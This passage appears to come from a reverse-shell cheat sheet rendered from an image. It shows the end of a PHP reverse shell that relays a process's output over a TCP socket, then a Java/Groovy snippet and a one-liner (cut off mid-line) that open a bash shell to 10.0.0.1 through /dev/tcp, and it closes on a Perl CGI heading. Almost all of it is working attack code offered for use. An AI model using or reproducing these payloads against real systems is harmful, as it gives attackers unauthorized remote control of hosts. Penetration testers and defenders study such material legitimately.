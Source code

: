 ```
if ($debug) printit("STDOUT: $input");
fwrite($sock, $input);
}

// If we can read from the process's STDERR
// send data down tcp connection
if (in_array($pipes[2], $read_a)) {
if ($debug) printit("STDERR READ");
$input = fread($pipes[2], $chunk_size);
if ($debug) printit("STDERR: $input");
fwrite($sock, $input);
}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
if (!$daemon) {
print "$string\n";
}
}

?>
```

## JAVA

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

one-liner:

```
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/666;c
```



## Perl

#### Save this as a CGI file: - you can always just use a command line as well
